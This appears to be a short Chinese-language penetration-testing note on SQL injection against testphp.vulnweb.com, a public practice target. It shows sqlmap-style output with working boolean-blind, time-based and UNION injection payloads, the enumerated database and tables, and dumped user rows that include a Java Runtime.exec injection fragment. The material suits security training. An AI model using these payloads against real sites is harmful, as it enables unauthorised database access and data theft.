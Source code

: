 # 盲注脚本

## 前置靶场环境

```http
http://testphp.vulnweb.com/artists.php?artist=1
```

```
---
参数: artist (GET)
    类型: boolean-based blind
    标题: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 9068=9068

    类型: time-based blind
    标题: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: artist=1 RLIKE SLEEP(5)

    类型: UNION query
    标题: Generic UNION query (NULL) - 3 columns
    Payload: artist=-6045 UNION ALL SELECT CONCAT(0x7162717671,0x676f62727961545065776a6b6d786b44584c787664505a446e6a50484f737564537261656a414749,0x7170706b71),NULL,NULL-- -
---
[20:58:40] [INFO] 后端DBMS是 MySQL
web 服务 operating system: Linux Ubuntu
web 应用技术: Nginx 1.19.0, PHP 5.6.40
后端 DBMS: MySQL >= 5.0.12
```

```
可用数据库: [2]:
[*] acuart
[*] information_schema

数据库: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

[*]users表数据
cc	cart	name	pass	email	phone	uname	address
9502953917	8ba610f5e2a978a5d112f3c9e02a7d94	[[${#rt = @java.lang.Runtime@getRuntime(),#rt.exec(	test	email@email.com	2323345	test	21 street
```
